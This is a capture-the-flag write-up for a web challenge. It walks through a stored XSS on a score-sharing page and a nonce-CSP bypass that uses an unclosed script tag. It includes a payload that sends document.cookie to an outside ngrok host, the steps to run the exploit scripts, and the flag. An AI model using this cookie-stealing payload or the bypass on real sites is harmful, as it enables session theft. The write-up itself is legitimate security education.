



# nomnomnom - angstromCTF 2021

- Category: Web
- Points: 130
- Solves: 113
- Solved by: SM_SC2, drw0if

## Description

I've made a new game that is sure to make all the Venture Capitalists want to invest! Care to try it out?

[NOM NOM NOM (the game)](https://nomnomnom.2021.chall.actf.co/)

[source](dist/deploy.zip)

## Overview

We have a "Snake"-like game that asks for our username and sends it with our score to `/record` when we lose.



Then, we are redirected to `shares/{shareName}` if the score is greater than 1, as we can see from the code:

```javascript
app.post('/record', function (req, res) {
	if (req.body.name > 100) {
		return res.status(400).send('your name is too long! we don\'t have that kind of vc investment yet...');
	}

	if (isNaN(req.body.score) || !req.body.score || req.body.score < 1) {
		res.send('your score has to be a number bigger than 1! no getting past me >:(');
		return res.status(400).send('your score has to be a number bigger than 1! no getting past me >:(');
	}

	const name = req.body.name;
	const score = req.body.score;
	const shareName = crypto.randomBytes(8).toString('hex');

	shares[shareName] = { name, score };

	return res.redirect(`/shares/${shareName}`);
})
```

Our username is printed into `/shares/${shareName}` page without any escape. So it's vulnerable to XSS.

```javascript
app.get('/shares/:shareName', function(req, res) {
	// TODO: better page maybe...? would attract those sweet sweet vcbucks
	if (!(req.params.shareName in shares)) {
		return res.status(400).send('hey that share doesn\'t exist... are you a time traveller :O');
	}

	const share = shares[req.params.shareName];
	const score = share.score;
	const name = share.name;
	const nonce = crypto.randomBytes(16).toString('hex');
	let extra = '';

	if (req.cookies.no_this_is_not_the_challenge_go_away === nothisisntthechallenge) {
		extra = `deletion token: <code>${process.env.FLAG}</code>`
	}

	return res.send(`
<!DOCTYPE html>
<html>
	<head>
		<meta http-equiv='Content-Security-Policy' content="script-src 'nonce-${nonce}'">
		<title>snek nomnomnom</title>
	</head>
	<body>
		${extra}${extra ? '<br /><br />' : ''}
		<h2>snek goes <em>nomnomnom</em></h2><br />
		Check out this score of ${score}! <br />
		<a href='/'>Play!</a> <button id='reporter'>Report.</button> <br />
		<br />
		This score was set by ${name}
		<script nonce='${nonce}'>
function report() {
	fetch('/report/${req.params.shareName}', {
		method: 'POST'
	});
}

document.getElementById('reporter').onclick = () => { report() };
		</script> 
		
	</body>
</html>`);
});
```

username: `<b>test</b>`



Also, it prints the flag if we provide `no_this_is_not_the_challenge_go_away` cookie.

If we click on 'Report' button, the page is sent to `/report/{shareName}`

```javascript
app.post('/report/:shareName', async function(req, res) {
	if (!(req.params.shareName in shares)) {
		return res.status(400).send('hey that share doesn\'t exist... are you a time traveller :O');
	}

	await visiter.visit(
		nothisisntthechallenge,
		`http://localhost:9999/shares/${req.params.shareName}`
	);
})
```

and is visited through a puppeteer instance by `visiter.js`

```javascript
async function visit(secret, url) {
	const browser = await puppeteer.launch({ args: ['--no-sandbox'], product: 'firefox' })
	var page = await browser.newPage()
	await page.setCookie({
		name: 'no_this_is_not_the_challenge_go_away',
		value: secret,
		domain: 'localhost',
		samesite: 'strict'
	})
	await page.goto(url)

	// idk, race conditions!!! :D
	await new Promise(resolve => setTimeout(resolve, 500));
	await page.close()
	await browser.close()
}
```

## Solution

We know that `/shares/{shareName}` is vulnerable to XSS and `no_this_is_not_the_challenge_go_away` cookie is accessible from javascript because `httpOnly` is not set.

So, we have to steal the cookie and make a GET request to `/shares/{shareName}`.

To steal the cookie, we have to inject the following script (we are using ngrok as HTTP bin)

```javascript
fetch('https://2f155d482279.ngrok.io?c=' + document.cookie, { mode: 'no-cors' })
```

Unfortunately, the page uses the CSP `script-src` which blocks scripts execution that doesn't have a valid `nonce`.

```html
<meta http-equiv='Content-Security-Policy' content="script-src 'nonce-e45da5b8e5f5f43cc48806aaabdbccfb'">
```

The policy seems correctly implemented, so there is no way to bypass it.

Looking closer at the HTML code, we can see that what we inject is inserted immediately before a script with a valid nonce. So we have to break this script tag and inject our code.

```html
<a href='/'>Play!</a> <button id='reporter'>Report.</button> <br />
		<br />
		This score was set by <b>test</b>
		<script nonce='07fdcf843e8050eb15575ae4a6135f94'>
function report() {
```

The solution is loading js through the `src` attribute and leave the tag open. In this way, Firefox, trying to fix the code, will interpret the second `<script` as an attribute.

```html
<script src="data:text/javascript,{script}"
```

## Exploits execution

1. Configure exploits with your `http_bin`
2. Run `py ./exploit.py` and take note of the `shareName`
3. Run `py ./report.py {shareName}`
4. Get the cookie value from your HTTP bin
5. Run `py ./getflag.py {shareName} {cookie_value}`
6. Get the flag from the response



## Flag

```
actf{w0ah_the_t4g_n0mm3d_th1ng5}
```